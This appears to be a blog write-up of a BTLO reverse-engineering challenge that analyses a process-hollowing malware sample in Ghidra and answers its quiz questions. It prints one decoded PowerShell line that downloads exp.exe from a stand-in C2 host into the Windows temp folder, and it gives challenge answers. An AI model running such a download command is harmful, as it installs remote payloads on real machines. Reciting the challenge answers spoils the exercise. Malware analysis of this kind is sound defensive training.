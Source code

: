 ```yaml
---
author: pl4int3xt
layout: post
title: Injection series part 4
date: '2023-10-04 15:09:52 +0800'
cover: img/cover_images/27.png
description: "Reverse engineer the given file and understand the behavior. You can use any disassembler you like to complete this challenge."
categories: [BTLO, Reverse Engineering]
tags: [Reverse Engineering, BTLO, Malware]
---
```


## Injection Series Part 4
Reverse engineer the given file and understand the behavior. You can use any disassembler you like to complete this challenge. 


## Question 1 : What is the process that would be first spawned by the sample? And what is the API used?

I'll be using my favourite reverse engineering tool Ghidra you can use any other tool of your choice.

![img-description](/assets/img/injection-part4/ghidra1.png)

We see the entry function and now we move to the next function

![img-description](/assets/img/injection-part4/ghidra2.png)

We locate the main function by the return value. Since the main function must return something that's how we locate the code that was written by the developer.

![img-description](/assets/img/injection-part4/ghidra3.png)

We are now able to locate the API used and the process first spawned

## Question 2 : The value 4 has been pushed as a parameter to this API, what does that denote? (Format: FLAG)

![img-description](/assets/img/injection-part4/ghidra4.png)

we can see the value 4 passed in CreateFileA Api call so we will do some google search on that function

![img-description](/assets/img/injection-part4/proc.png)

we get the parameter being passed and search it's function

![img-description](/assets/img/injection-part4/getproc.png)

## Question 3: What is the domain that the malware tries to connect? (Format: domain.tld)

We notice a powershell script executed in the code

![img-description](/assets/img/injection-part4/ghidra5.png)

so we try to decode

![img-description](/assets/img/injection-part4/cyberchef.png)

``` bash
Invoke-WebRequest -Uri http://somec2.server/exp.exe -OutFile c:\\windows\\temp\\exp.exe
```
we see the domain from the code

## Question 4: What is the cmdlet used to download the file and what is the path of the file stored? (Format: CMDLET, path) 

We already have all the details from the code in question 3

## Question 5: Just after the file download instructions, a function from ntdll has been loaded and invoked by the sample. What is the function name? (Format: Function)

We can see the function invoked in the code below

![img-description](/assets/img/injection-part4/ghidra6.png)

## Question 6: After the allocation of memory and writing the date into the allocated memory. What are the 2 APIs used to update the entry point and resume the thread? (Format: API, API)

We can see the two APIs being used for threading

![img-description](/assets/img/injection-part4/ghidra7.png)

## Question 7: What is the MITRE ID for this technique implemented in this sample? (Format: TXXXX.XXX)

The malware first executes a process in suspended mode and then allocates some memory and write data into it. After that it resumes the process thread, which allows it to do malicious activities without being detected by antivirus programs. This is called process injection or hallowing

![img-description](/assets/img/injection-part4/mitre.png)